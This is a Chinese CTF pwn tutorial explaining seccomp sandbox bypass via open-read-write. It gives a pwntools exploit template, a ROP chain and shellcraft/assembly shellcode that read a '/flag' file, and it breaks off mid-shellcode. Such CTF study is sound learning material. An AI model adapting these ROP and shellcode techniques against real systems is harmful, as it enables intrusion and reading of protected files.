 > ![image](/assets/image /2025-08-01-my-second-post.assets/3458477-20250416202250958-426312344.png)

> ```python
> # python3脚本
> from pwncli import *
> context(arch='amd64',os='linux',log_level='debug')
> p   = lambda s,t: print(f"\033[0;31;43m{s.ljust(15, ' ') + '------------------------->' + hex(t)}\033[0m")
> 
> sh = process("./shellcode")
> 
> shellcode = [shellcode代码] #-----------
> sh.sendline(asm(shellcode))
> 
> sh.interactive()
> ```

### 沙盒

沙盒是一种对程序的保护，他可以禁用一些系统调用从而增加pwn题目的难度，迫使pwner们通过ORW的方法进行绕过沙盒。比如最常见的禁用execve，那么就只能通过open，read，write来直接读取flag的内容。

### 沙盒检测

```bash
seccomp-tools dump ./pwn
```

## 正篇

### open+read+write

#### rop

```python
rop = b"a"*0x18
rop += flat(pop_rdi, 0, pop_rsi, libc.sym["_IO_list_all"]+8, pop_rdx_r12, 0x200, 0, libc.sym["read"])  # read
rop += flat(pop_rdi, libc.sym["_IO_list_all"]+8, pop_rsi, 0, pop_rdx_r12, 0, 0, libc.sym["open"])  # open
rop += flat(pop_rdi, 3, pop_rsi, libc.sym["_IO_list_all"]+8, pop_rdx_r12, 0x200, 0, libc.sym["read"])  # read
rop += flat(pop_rdi, 1, pop_rsi, libc.sym["_IO_list_all"]+8, pop_rdx_r12, 0x200, 0, libc.sym["write"])  # write

sh.sendline(rop)
sh.sendline("/flag\x00")
```

#### shellcode

```python
shellcode = shellcraft.amd64.pushstr("/flag")
shellcode += shellcraft.amd64.linux.open('rsp', 0, 0)
shellcode += shellcraft.amd64.linux.read('rax', 'rsp', 0x200)
shellcode += shellcraft.amd64.linux.write(1, 'rsp', 0x200)
flag_name = b'/flag'
shellcode = ""
shellcode += """ 
    mov r12,""" + str(u64(flag_name.ljust(8,b'\x00'))) + """
    mov [rsp],r12
"""

shellcode += """
    mov rdi, rsp
```